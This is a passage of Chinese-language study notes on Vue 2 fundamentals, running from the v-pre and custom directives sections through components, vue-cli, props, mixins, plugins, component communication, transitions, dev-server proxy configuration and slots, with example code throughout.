    <h2>当前的n值是:{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            n: 1
        }
    })
</script>

```

#### （5）v-pre指令
1.vue 会跳过其所在节点的编译过程

2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

```vue
<div id="root">
    <h2 v-pre>Vue其实很简单</h2>
    <h2 v-pre>当前的n值是:{{n}}</h2>
    <button v-pre @click="n++">点我n+1</button>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            n: 1
        }
    })
</script>

```

### 1.19 自定义指令
1.定义语法：

+ 局部指令：`new Vue({ directives:{指令名:配置对象} })`  或  `new Vue({ directives{指令名:回调函数}  })`
+ 全局指令： `Vue.directive(指令名,配置对象)` 或  `Vue.directive(指令名,回调函数)`

2.配置对象中常用的3个回调：

+ `bind`：指令与元素成功绑定时调用
+ `inserted`：指令所在元素被插入页面时调用
+ `update`：指令所在模板结构被重新解析时调用

> 备注：
>
> + 指令定义时不加 `v-` ，但使用时要加 `v-`
> + 指令名如果是多个单词，要使用 `kebab-case` 命名方式，不要用`camelCase`命名
>

```vue
<!-- 
    需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
    需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
-->
<div id="root">
    <h2>当前的n值是：<span v-text="n"></span> </h2>
    <!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
    <h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
    <button @click="n++">点我n+1</button>
    <input type="text" v-fbind:value="n">
</div>

<script>
    //定义全局指令
    /* Vue.directive('fbind',{
        //指令与元素成功绑定时（一上来）
        bind(element,binding){
            element.value = binding.value
        },
        //指令所在元素被插入页面时
        inserted(element,binding){
            element.focus()
        },
        //指令所在的模板被重新解析时
        update(element,binding){
            element.value = binding.value
        }
    }) */

    new Vue({
        el: '#root',
        data: {
            n: 1
        },
        directives: {
            //big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
            /* 'big-number'(element,binding){
                // console.log('big')
                element.innerText = binding.value * 10
            }, */
            big(element, binding) {
                console.log('big', this) //注意此处的this是window
                // console.log('big')
                element.innerText = binding.value * 10
            },
            fbind: {
                //指令与元素成功绑定时（一上来）
                bind(element, binding) {
                    element.value = binding.value
                },
                //指令所在元素被插入页面时
                inserted(element, binding) {
                    element.focus()
                },
                //指令所在的模板被重新解析时
                update(element, binding) {
                    element.value = binding.value
                }
            }
        }
    })
</script>

```

### 1.20 vue 的生命周期
1.又名：生命周期回调函数、生命周期函数、生命周期钩子

2.是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数

3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的

4.生命周期函数中的 this 指向是 vm 或 组件实例对象

5.常用的生命周期钩子：

+ mounted: 发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】
+ beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】

6.关于销毁 Vue 实例

+ 销毁后借助 Vue 开发者工具看不到任何信息
+ 销毁后自定义事件会失效，但原生 DOM 事件依然有效
+ 一般不会在 beforeDestroy 操作数据，因为即便操作数据，也不会再触发更新流程了

7.生命周期的流程



```vue
<!-- 准备好一个容器-->
<div id="root" :x="n">
    <h2 v-text="n"></h2>
    <h2>当前的n值是：{{n}}</h2>
    <button @click="add">点我n+1</button>
    <button @click="bye">点我销毁vm</button>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            n:1
        },
        methods: {
            add(){
                console.log('add')
                this.n++
            },
            bye(){
                console.log('bye')
                this.$destroy()
            }
        },
        watch:{
            n(){
                console.log('n变了')
            }
        },
        beforeCreate() {
            console.log('beforeCreate')
        },
        created() {
            console.log('created')
        },
        beforeMount() {
            console.log('beforeMount')
        },
        mounted() {
            console.log('mounted')
        },
        beforeUpdate() {
            console.log('beforeUpdate')
        },
        updated() {
            console.log('updated')
        },
        beforeDestroy() {
            console.log('beforeDestroy')
        },
        destroyed() {
            console.log('destroyed')
        }
    })
</script>

```

### 1.21 组件
#### （1）对组件的理解
组件是应用中局部功能代码 和 资源 的`集合`





#### （2）一些概念
1.模块

+ 理解：向外提供特定功能的 js 程序, 一般就是一个 js 文件 
+ 为什么：js 文件很多很复杂
+ 作用：复用 js, 简化 js 的编写, 提高 js 运行效率

2.组件

+ 理解：用来实现局部(特定)功能效果的代码集合(html/css/js/image…..) 
+ 为什么：一个界面的功能很复杂
+ 作用：复用编码, 简化项目编码, 提高运行效率

4.模块化：当应用中的 js 都以模块来编写的, 那这个应用就是一个模块化的应用

5.组件化：当应用中的功能都是多组件的方式来编写的, 那这个应用就是一个组件化的应用

#### （3）非单文件组件
1.Vue中使用组件的三大步骤：

+ 定义组件(创建组件)
+ 注册组件
+ 使用组件(写组件标签)

2.如何定义一个组件？

使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个options几乎一样，但也有点区别；

+ el不要写，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器
+ data必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系

> 备注：使用template可以配置组件结构
>

3.如何注册组件？

+ 局部注册：靠`new Vue`的时候传入`components`选项
+ 全局注册：靠`Vue.component('组件名',组件)`

4.编写组件标签： `<school></school>`

```vue
<div id="root">
    <!-- 第三步：使用组件 -->
    <student></student>
    <school></school>
</div>

<script>
    // 第一步：创建 school 组件
    const school = Vue.extend({
        template: `
            <div>
                <h2>学校名称：{{schoolName}}</h2>
                <h2>学校地址：{{address}}</h2>
            </div>
        `,
        data() {
            return {
                schoolName: '家里蹲大学',
                address: '家里'
            }
        }
    })

    // 第二步：注册组件（全局注册）
    Vue.component('school', school)

    // 第一步：创建 student 组件
    const student = Vue.extend({
        template: `
            <div>
                <h2>学生姓名：{{studentName}}</h2>

                <h2>学生年龄：{{age}}</h2>

            </div>

        `,
        data() {
            return {
                studentName: '张三',
                age: 18
            }
        },
    })

    // 创建vm
    new Vue({
        el: '#root',
        //第二步：注册组件（局部注册）
        components: {
            student
        }
    })
</script>

```

#### （4）几个注意点
1.关于组件名:

+ 一个单词组成：
+ 第一种写法(首字母小写)：school
+ 第二种写法(首字母大写)：School
+ 多个单词组成：
    - 第一种写法(kebab-case命名)：my-school
    - 第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)

> 备注：
>
> + 组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行
> + 可以使用name配置项指定组件在开发者工具中呈现的名字
>

2.关于组件标签:

+ 第一种写法：`<school></school>`
+ 第二种写法：`<school/>`

> 备注：不用使用脚手架时，`<school/>`会导致后续组件不能渲染
>

3.关于简写方式：

`const school = Vue.extend(options) `可简写为：`const school = options`

#### （5）组件的嵌套
```vue
<div id="root">
    <!-- 第三步：使用组件 -->
</div>

<script>
    // 第一步：创建 student 组件
    const student = Vue.extend({
        template: `
            <div>
                <h2>学生姓名：{{studentName}}</h2>

                <h2>学生年龄：{{age}}</h2>

            </div>

            `,
        data() {
            return {
                studentName: '张三',
                age: 18
            }
        },
    })

    // 第一步：创建 school 组件
    const school = Vue.extend({
        template: `
            <div>
                <h2>学校名称：{{schoolName}}</h2>

                <h2>学校地址：{{address}}</h2>

                <student></student>

            </div>

            `,
        data() {
            return {
                schoolName: '家里蹲大学',
                address: '家里'
            }
        },
        components: {
            student
        }
    })

    // 第一步：创建 school 组件
    const hello = Vue.extend({
        template: `
            <div>
                <h2>{{msg}}</h2>

            </div>

            `,
        data() {
            return {
                msg: 'hello'
            }
        }
    })

    // 第一步：创建 app 组件
    const app = Vue.extend({
        template: `
            <div>
                <hello></hello>

                <school></school>

            </div>

            `,
        components: {
            school,
            hello
        }
    })

    // 创建vm
    new Vue({
        el: '#root',
        template: `
            <div>
                <app></app>

            </div>

            `,
        //第二步：注册组件（局部注册）
        components: {
            app
        }
    })
</script>

```

#### （6）VueComponent
1.`school` 组件本质是一个名为 `VueComponent` 的构造函数，且不是程序员定义的，是 `Vue.extend` 生成的

2.我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建 `school` 组件的实例对象，即 Vue 帮我们执行的：`new VueComponent(options)`

3.特别注意：每次调用 `Vue.extend` ，返回的都是一个全新的 `VueComponent`

4.关于 this 指向：

+ 组件配置中：data 函数、methods 中的函数、watch 中的函数、computed 中的函数 它们的 this 均是【VueComponent实例对象】
+ new Vue(options)配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】

5.VueComponent的实例对象，以后简称vc（也可称之为：组件实例对象），Vue的实例对象，以后简称vm

#### （7）一个重要的关系
1.Vue 与 VueComponent 的关系：VueComponent.prototype.**proto** === Vue.prototype

2.为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法



#### （8）单文件组件


App.vue

```vue
<template>
    <div>
        <School></School>
        <Student></Student>
    </div>
</template>

<script>
    //引入组件
    import School from './School.vue'
    import Student from './Student.vue'

    export default {
        name:'App',
        components:{
            School,
            Student
        }
    }
</script>

```

index.html

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>练习一下单文件组件的语法</title>
</head>
<body>
    <!-- 准备一个容器 -->
    <div id="root"></div>
    <script type="text/javascript" src="../js/vue.js"></script>
    <script type="text/javascript" src="./main.js"></script>
</body>
</html>
```

main.js

```javascript
import App from './App.vue'

new Vue({
    el:'#root',
    template:`<App></App>`,
    components:{App},
})
```

School.vue

```vue
<template>
    <div class="demo">
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showName">点我提示学校名</button>	
    </div>
</template>

<script>
     export default {
        name:'School',
        data(){
            return {
                name:'家里蹲大学',
                address:'家里'
            }
        },
        methods: {
            showName(){
                alert(this.name)
            }
        },
    }
</script>

<style>
    .demo{
        background-color: orange;
    }
</style>

```

Student.vue

```vue
<template>
    <div>
        <h2>学生姓名：{{name}}</h2>
        <h2>学生年龄：{{age}}</h2>
    </div>
</template>

<script>
     export default {
        name:'Student',
        data(){
            return {
                name:'张三',
                age:18
            }
        }
    }
</script>
```

## 2、vue-cli
### 2.1 什么是脚手架
> 文档: [https://cli.vuejs.org/zh/](https://cli.vuejs.org/zh/)
>

Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）

最新的版本是 4.x

### 2.2 初始化脚手架
1.设置淘宝镜像

```shell
npm config set registry https://registry.npmmirror.com/
```

2.全局安装 @vue/cli

```shell
npm install -g @vue/cli
```

3.查看

```shell
vue
```



4.切换到你要创建项目的目录，然后使用命令创建项目

```shell
vue create 项目名称
```

5.选择 vue 的版本



6.选择用什么包管理工具



7.进入文件，启动项目

```shell
npm run serve
```



### 2.3 脚手架文件结构
```plain
├── node_modules 
├── public
│   ├── favicon.ico: 页签图标
│   └── index.html: 主页面
├── src
│   ├── assets: 存放静态资源
│   │   └── logo.png
│   │── component: 存放组件
│   │   └── HelloWorld.vue
│   │── App.vue: 汇总所有组件
│   │── main.js: 入口文件
├── .gitignore: git版本管制忽略的配置
├── babel.config.js: babel的配置文件（ES6 转 ES5）
├── package.json: 应用包配置文件 
├── README.md: 应用描述文件
├── package-lock.json：包版本控制文件
```

### 2.4 不同版本的Vue
1.`vue.js` 与` vue.runtime.xxx.js `的区别：

+ `vue.js` 是完整版的 Vue，包含：核心功能 + 模板解析器
+ `vue.runtime.xxx.js` 是运行版的 Vue，只包含：核心功能；没有模板解析器。

2.因为 `vue.runtime.xxx.js` 没有模板解析器，所以不能使用 `template` 这个配置项，需要使用 `render` 函数接收到的 `createElement` 函数去指定具体内容

```vue
import Vue from 'vue' //这里引入的是残缺版的vue vue.runtime.esm.js
import App from './App.vue'
new Vue({
  render: h => h(App),
}).$mount('#app')
```

### 2.5 vue.config.js配置文件
1.在控制台输入：`vue inspect > output.js` ，会生成一个可以查看到Vue脚手架的默认配置的文件

2.在 `vue.config.js` 文件可以配置脚手架，详情见：[https://cli.vuejs.org/zh](https://cli.vuejs.org/zh)

### 2.6 ref 属性
1.被用来给`元素`或`子组件`注册引用信息（id的替代者）

2.应用在 html 标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象（vc）

3.使用方式：

+ 打标识：```<h1 ref="xxx">.....</h1>``` 或 ```<School ref="xxx"></School>```
+ 获取：```this.$refs.xxx```

```vue
<template>
  <div>
    <button @click="demo">点击获取元素</button>
    <!-- 1.打标识 -->  
    <h1 ref="msg">{{msg}}</h1>
    <School ref="school"/>
  </div>
</template>

<script>
import School from './components/School.vue'
export default {
  name:'App',
  components: { School },
  data(){
    return {
      msg: 'ref属性'
    }
  },
  methods:{
    demo(){
      // 2.获取  
      console.log(this.$refs.msg);
      console.log(this.$refs.school);
    }
  }
}
</script>

```

### 2.7 props配置项
1.功能：让组件接收外部传过来的数据

2.传递数据：```<Demo name="张三" :age="18"/>```

3.接收数据：

+ 第一种方式（只接收）：```props:['name'] ```
+ 第二种方式（限制类型）：```props:{name:String}```
+ 第三种方式（限制类型、限制必要性、指定默认值）：


```javascript
props:{
    name:{
    type:String, //类型
    required:true, //必要性
    default:'老王' //默认值
    }
}
```

> 备注：props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据。
>

4.代码示例：

App.vue

```vue
<template>
  <div>
    <!-- 1.传递数据 -->
    <Student name="李四" :age="18" sex="女"/>
  </div>
</template>

<script>
import Student from './components/Student.vue'
export default {
  name:'App',
  components: { Student },
}
</script>

```

Student.vue

```vue
<template>
  <div>
    <button @click="myAge++">点击年龄加1</button>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>学生年龄：{{myAge}}</h2>
  </div>
</template>

<script>
export default {
    name:'Student',
    data(){
      return {
        myAge:this.age
      }
    }, 
    // 2.接收数据 
    // props:['name','age','sex']

    /*props:{
      name:String,
      age:Number,
      sex:String
    } */

    props:{
      name:{
        type:String,
        required:true
      },
      age:{
        type:Number,
        default:99
      },
      sex:{
        type:String,
        required:true
      }
    }
}
</script>

```

### 2.8 mixin(混入)
1.功能：可以把多个组件共用的配置提取成一个混入对象

2.使用方式：

第一步定义混入：创建一个与 `mian.js` 平级文件 mixin.js (名字任意)

```javascript
export const xxx = {
    data(){....},
    methods:{....}
    ....
}
```

第二步使用混入：

+ 全局混入：```Vue.mixin(xxx)```
+ 局部混入：```mixins:['xxx']	```

> 当 mixin 中配置的东西与其他组件重复时，其他组件的配置优先（mounted 除外）
>

3.代码示例

mixin.js

```javascript
// 1.定义混入
export const hunhe = {
    methods: {
        show() {
            alert(this.name)
        }
    },
    mounted() {
        console.log('minxin文件中的挂载')
    },
}

export const hunhe2 = {
    data() {
        return {
            x: 100,
            y: 200
        }
    }
}
```

main.js，使用全局混入

```javascript
import Vue from 'vue'
import App from './App.vue'
// 2.引入混入
import { hunhe, hunhe2 } from './mixin'

Vue.config.productionTip = false
// 3.使用混入
Vue.mixin(hunhe)
Vue.mixin(hunhe2)

new Vue({
  el: '#app',
  render: h => h(App)
})
```

Student.vue，使用局部混入

```vue
<template>
  <div>
    <h2 @click="show">学生姓名：{{name}}</h2>
    <h2>学生年龄：{{age}}</h2>
  </div>
</template>

<script>
// 2.引入混入
import { hunhe,hunhe2 } from '../mixin'
export default {
    name:'Student',
    data(){
      return {
        name:'zhangsan',
        age:22
      }
    },
    // 3.使用混入
    mixins:[hunhe,hunhe2]
}
</script>

```

### 2.9 插件
1.功能：用于增强Vue

2.本质：包含 install 方法的一个对象，install 的第一个参数是 Vue，第二个以后的参数是插件使用者传递的数据

3.插件的使用：

第一步定义插件：创建一个与 `mian.js` 平级文件 plugins.js (名字任意)

```javascript
export default{
    install(Vue, options) {
    // 添加全局过滤器
    Vue.filter(....)
    // 添加全局指令
    Vue.directive(....)
    // 配置全局混入(合)
    Vue.mixin(....)
    // 添加实例方法
    Vue.prototype.$myMethod = function () {...}
    Vue.prototype.$myProperty = xxxx
    ...                                       
    }
}
```

第二步使用插件：```Vue.use()```

4.代码示例：

plugins.js

```javascript
// 1.定义插件
export default {
    install(Vue) {
        // 定义全局过滤器
        Vue.filter('mySlice', function (value) {
            return value.slice(0, 3)
        })

        // 定义全局自定义指令
        Vue.directive('fbind', {
            //指令与元素成功绑定时（一上来）
            bind(element, binding) {
                element.value = binding.value
            },
            //指令所在元素被插入页面时
            inserted(element, binding) {
                element.focus()
            },
            //指令所在的模板被重新解析时
            update(element, binding) {
                element.value = binding.value
            }
        })

        // 定义混入
        Vue.mixin({
            data() {
                return {
                    x: 100,
                    y: 200
                }
            }
        })

        // 给Vue原型上添加一个方法（vm 和 vc 就都能使用）
        Vue.prototype.hello = () => { alert('你好啊') }
    }
}
```

main.js

```javascript
import Vue from 'vue'
import App from './App.vue'
// 2.引入插件
import plugins from './plugins'

Vue.config.productionTip = false
// 3.使用插件
Vue.use(plugins)

new Vue({
  el: '#app',
  render: h => h(App)
})
```

### 2.10 scoped 样式
1.作用：让样式在局部生效，防止冲突。

2.写法：```<style scoped>```

### 2.11 总结TodoList案例


1.组件化编码流程：

（1）拆分静态组件：组件要按照功能点拆分，命名不要与 html 元素冲突

（2）实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：

+ 一个组件在用：放在组件自身即可
+ 一些组件在用：放在他们共同的父组件上（<font style="color:red;">状态提升</font>）


（3）实现交互：从绑定事件开始

2.props适用于：

（1）父组件 ==> 子组件 通信

（2）子组件 ==> 父组件 通信（要求父先给子一个函数）

3.使用 v-model 时要切记：v-model 绑定的值不能是 props 传过来的值，因为 props 是不可以修改的

4.props 传过来的若是对象类型的值，修改对象中的属性时 Vue 不会报错，但不推荐这样做

### 2.12 webStorage
1.存储内容大小一般支持 `5MB` 左右（不同浏览器可能还不一样）

2.浏览器端通过 `Window.sessionStorage` 和 `Window.localStorage` 属性来实现本地存储机制。

3.相关API：

+ ```xxxxxStorage.setItem('key', 'value');```  
 该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值
+ ```xxxxxStorage.getItem('person');``` 该方法接受一个键名作为参数，返回键名对应的值
+ ```xxxxxStorage.removeItem('key');``` 该方法接受一个键名作为参数，并把该键名从存储中删除
+ ``` xxxxxStorage.clear()``` 该方法会清空存储中的所有数据

4.备注：

+ SessionStorage 存储的内容会随着浏览器窗口关闭而消失
+ LocalStorage 存储的内容，需要手动清除才会消失
+ ```xxxxxStorage.getItem(xxx)```如果 xxx 对应的 value 获取不到，那么 getItem 的返回值是 null
+ ```JSON.parse(null)``` 的结果依然是 null


### 2.13 组件的自定义事件
1.一种组件间通信的方式，适用于：**<font style="color:red;">子组件 ===> 父组件</font>**

2.使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（<font style="color:red;">事件的回调在A中</font>）

3.绑定事件的方式：

方式1，在父组件中：```<Demo @demo="m1"/>```  或 ```<Demo v-on:demo="m1"/>```

方式2，在父组件中：

```javascript
<Demo ref="xxx"/>
...
mounted(){
   this.$refs.xxx.$on('demo',指定的回调函数)
}
```

> 若想让自定义事件只能触发一次，可以使用```once```修饰符，或```$once```方法
>

4.触发自定义事件：```this.$emit('demo',数据)```

5.解绑自定义事件：

+ `this.$off('demo')`： 解绑一个
+ `this.$off(['demo','demo2'])`：解绑多个
+ `this.$off()`：解绑所有

> 注意：
>
> + 组件上也可以绑定原生DOM事件，需要使用```native```修饰符，如`<Student ref="student" @click.native="show"/>`
> + 通过```this.$refs.xxx.$on('demo',回调)```绑定自定义事件时，回调<font style="color:red;">要么配置在methods中</font>，<font style="color:red;">要么用箭头函数</font>，否则this指向会出问题！
>

6.代码示例：

App.vue

```vue
<template>
  <div class="app">
    <!-- 1.注册引用信息 -->  
    <student ref="student"/>
    <!-- <student @demo="getStudentName"/> -->  
  </div>

</template>

<script>
import Student from './components/Student.vue'
export default {
  name:'App',
  components: {Student},
  methods:{
    // 3.指定回调  
    getStudentName(name) {
      console.log('App收到了学生名：', name);
    }
  },
  // 2.绑定自定义事件  
  mounted(){  
    this.$refs.student.$on('demo',this.getStudentName)
    // this.$refs.student.$once('demo',this.getStudentName)
  }
}
</script>

```

Student.vue

```vue
<template>
  <div class="student">
    <h2>学生姓名：{{name}}</h2>
    <h2>学生年龄：{{age}}</h2>
    <button @click="sendStudentName">把学生名给App</button>
    <button @click="unbind">解绑自定义事件</button>
  </div>
</template>

<script>
export default {
  name:'Student',
  data(){
    return {
      name:'张三',
      age:23
    }
  },
  methods:{
    // 4.触发自定义事件
    sendStudentName(){
      this.$emit('demo',this.name)
    },
    unbind(){
      // 5.解绑自定义事件
      this.$off('demo')
    }
  }
}
```

### 2.14 全局事件总线


1.一种组件间通信的方式，适用于<font style="color:red;">任意组件间通信</font>

2.使用方式

第一步安装全局事件总线：

```javascript
new Vue({
    ...
    beforeCreate() {
        Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
    },
    ...
}) 
```

第二步接收数据：A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的<font style="color:red;">回调留在A组件自身</font>

```javascript
methods(){
  demo(data){...}
}
...
mounted() {
  this.$bus.$on('xxxx',this.demo)
}
```

第三步提供数据：```this.$bus.$emit('xxxx',数据)```

第四步在 beforeDestroy 钩子中，用 `$off` 去解绑<font style="color:red;">当前组件所用到的</font>事件

3.代码示例：

main.js

```javascript
import Vue from 'vue'
import App from './App.vue'

Vue.config.productionTip = false

new Vue({
    el: '#app',
    render: h => h(App),
    // 1.安装全局事件总线
    beforeCreate() {
        Vue.prototype.$bus = this
    }
})
```

School.vue

```vue
<template>
   <div class="school">
     <h2>学校名称:{{  name }}</h2>
     <h2>学校地址: {{ address }}</h2>
   </div>
</template>

<script>
export default {
  name: "School",
  data(){
    return {
       name: '家里蹲大学',
       address: '家里'
    }
  },
  // 2.绑定自定义事件  
  mounted(){
    this.$bus.$on('hello',data => {
      console.log('我是School组件，收到了Student组件的数据：',data);
    })
  },
  // 4.解绑事件  
  beforeDestroy(){
    this.$bus.$off('hello')
  }
}
</script>
```

Student.vue

```vue
<template>
   <div class="student">
     <h2>学生姓名:{{  name }}</h2>
     <h2>学生年龄: {{ age }}</h2>
     <button @click="sendStudentName">把学生名给School组件</button>
   </div>
</template>

<script>
export default {
  name: "Student",
  data(){
    return {
       name: '张三',
       age: 33,
    }
  },
  methods:{
    sendStudentName(){
      // 3.触发事件
      this.$bus.$emit('hello',this.name)
    }
  }
}
</script>
```

### 2.15 消息订阅与发布


1.一种组件间通信的方式，适用于<font style="color:red;">任意组件间通信</font>

2.使用步骤：

（1）安装pubsub：```npm i pubsub-js```

（2）引入: ```import pubsub from 'pubsub-js'```

（3）接收数据：A组件想接收数据，则在A组件中订阅消息，订阅的<font style="color:red;">回调留在A组件自身</font>

```javascript
methods(){
  demo(data){...}
}
...
mounted() {
  this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
}
```

（4）提供数据：```pubsub.publish('xxx',数据)```

（5）最好在 beforeDestroy 钩子中，用```PubSub.unsubscribe(pid)```去<font style="color:red;">取消订阅。</font>

3.代码示例：

School.vue

```vue
<template>
   <div class="school">
     <h2>学校名称:{{  name }}</h2>
     <h2>学校地址: {{ address }}</h2>
   </div>
</template>

<script>
// 1.引入pubsub-js    
import pubsub from 'pubsub-js'
export default {
  name: "School",
  data(){
    console.log(this);
    return {
       name: '家里蹲大学',
       address: '家里'
    }
  },
  // 2.订阅消息
  mounted(){
    this.pubId = pubsub.subscribe('hello',(msgName,data) => {
      console.log('有人发布hello消息，hello消息回调执行了',msgName,data);
    })
  },
  // 4.取消订阅
  beforeDestroy(){
    pubsub.unsubscribe(this.pubId)
  }
}
</script>

```

Student.vue

```vue
<template>
   <div class="student">
     <h2>学生姓名:{{  name }}</h2>
     <h2>学生年龄: {{ age }}</h2>
     <button @click="sendStudentName">把学生名给School组件</button>
   </div>
</template>

<script>
// 1.引入pubsub-js
import pubsub from 'pubsub-js'
export default {
  name: "Student",
  data(){
    return {
       name: '张三',
       age: 33,
    }
  },
  methods:{
    sendStudentName(){
     // 3.发布消息   
     pubsub.publish('hello',this.name)
    }
  }
}
</script>
```

### 2.16 nextTick
1.语法：```this.$nextTick(回调函数)```

2.作用：在下一次 DOM 更新结束后执行其指定的回调

3.什么时候用：当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行

### 2.17 Vue封装的过度与动画
1.作用：在插入、更新或移除 DOM元素时，在合适的时候给元素添加样式类名



2.写法：

（1）准备好样式：

+ 元素进入的样式：
    1. v-enter：进入的起点
    2. v-enter-active：进入过程中
    3. v-enter-to：进入的终点
+ 元素离开的样式：
    1. v-leave：离开的起点
    2. v-leave-active：离开过程中
    3. v-leave-to：离开的终点

（2）使用```<transition>```包裹要过度的元素，并配置name属性,注意如果配置了appear属性的话就代表一开始挂载真实dom的时候就开启动画的效果：

```vue
<transition name="hello" appear>
    <h1 v-show="isShow">你好啊！</h1>
</transition>
```

> 备注：若有多个元素需要过度，则需要使用：```<transition-group>```，且每个元素都要指定```key```值
>

3.集成第三方动画：【Animate.css】[https://animate.style/](https://animate.style/)

4.代码示例1：动画实现

```vue
<template>
  <div>
    <button @click="isShow=!isShow">显示/隐藏</button>
    <!-- 2.使用<transition>包裹要过度的元素 -->  
    <transition appear>
      <h1 v-show="isShow">你好呀！</h1>
    </transition>
  </div>
</template>

<script>
export default {
  name:'Test',
  data(){
    return {
      isShow:true
    }
  }
}
</script>

<style scoped>
  h1{
    background-color: orange;
  }
  /* 1.准备好样式 */ 
  .v-enter-active{
    animation:  demo 0.5s linear;
  }
  .v-leave-active{
    animation:  demo 1s linear reverse;
  }
  @keyframes demo {
    from{
      transform: translateX(-100%);
    }
    to{
      transform: translateX(0px);
    }
  }
</style>
```

5.代码示例2：过度实现

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
   <!-- 2.使用<transition>包裹要过度的元素 -->
    <transition-group name="hello" appear>
      <h1 v-show="isShow" key="1">你好!</h1>
      <h1 v-show="!isShow" key="2">去spar!</h1>
    </transition-group>
  </div>
</template>

<script>
export default {
  name:'Test',
  data(){
    return {
      isShow:true
    }
  }
}
</script>

<style scoped>
h1 {
  background: orange;
}

/*1.准备好样式*/
.hello-enter,
.hello-leave-to {
  transform: translateX(-100%);
}
.hello-enter-active,
.hello-leave-active {
  transition: linear .5s;
}
.hello-enter-to,
.hello-leave {
  transform: translateX(0);
}
</style>

```

### 2.18 vue脚手架配置代理
脚手架配置代理可以用来解决开发环境 Ajax 跨域问题

**方法一**

在 `vue.config.js` 中添加如下配置：

```javascript
devServer:{
  proxy:"http://localhost:5000"
}
```

> 说明：
>
> 1. 优点：配置简单，请求资源时直接发给前端（8080）即可
> 2. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理
> 3. 工作方式：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器 （优先匹配前端资源）
>

**方法二**

编写 `vue.config.js` 配置具体代理规则：

```javascript
devServer: {
    proxy: {
        '/api1': {// 匹配所有以 '/api1'开头的请求路径
            target: 'http://localhost:5000',// 代理目标的基础路径
            changeOrigin: true,
            pathRewrite: {'^/api1': ''}
        },
        '/api2': {// 匹配所有以 '/api2'开头的请求路径
             target: 'http://localhost:5001',// 代理目标的基础路径
            changeOrigin: true,
            pathRewrite: {'^/api2': ''}
        }
    }
}
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```

> 说明：
>
> 1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理
> 2. 缺点：配置略微繁琐，请求资源时必须加前缀
>

### 2.19 插槽（slot）
1.作用：让父组件可以向子组件指定位置插入 html 结构，也是一种组件间通信的方式，适用于 **<font style="color:red;">父组件 ===> 子组件</font>** 

2.理解：父组件向子组件传递带数据的标签，当一个组件有不确定的结构时, 就需要使用 slot 技术

> 注意：插槽内容是在父组件中编译后, 再传递给子组件的
>

3.分类：默认插槽、具名插槽、作用域插槽

#### （1）默认插槽
App.vue：父组件

```vue
<template>
  <div class="container">
    <Category title="游戏">
      <!-- 1.准备好要插入的html结构 -->  
      <div>html结构</div>
    </Category>
  </div>
</template>
...
```

Category.vue：子组件

```vue
<template>
  <div class="category">
    <h3>{{title}}分类</h3>
    <!-- 2.指定要插入的位置 -->
    <slot>没有传入html结构，文字显示</slot>
  </div>    
</template>
...
```

#### （2）具名插槽
App.vue：父组件

```vue
<template>
  <div class="container">
    <Category>
      <!-- 1.准备好要插入的html结构 -->  
      <div v-slot="center">html结构1</div>  
      <template v-slot:footer>
        <div>html结构2</div>
      </template>
   </Category>
  </div>
</template>
...
```

Category.vue：子组件

```vue
<template>
  <div>
    <!-- 2.指定要插入的位置 -->
    <slot name="center">没有传入html结构，文字显示</slot>
    <slot name="footer">没有传入html结构，文字显示</slot>
  </div>
</template>
...
```

#### （3）作用域插槽
1.理解：<font style="color:red;">数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定</font>

2.注意：

+ 使用作用域插槽时插入的 html 结构必须用 `template`标签包裹
+ 接收数据可以用 `scope="xxx"` 或者 `slot-scope="xxx"`（可以用结构赋值）

3.代码示例：games 数据在 Category 组件中，但使用数据所遍历出来的结构由App组件决定

App.vue：父组件

```vue
<template>
  <div>
    <Category>
      <!-- 1.准备好要插入的html结构 -->
      <template scope="{games}">
        <ul>
          <li v-for="g in games" :key="g">{{g}}</li>
        </ul>
      </template>
    </Category>
    <Category>
      <!-- 1.准备好要插入的html结构 -->
      <template slot-scope="scopeData">
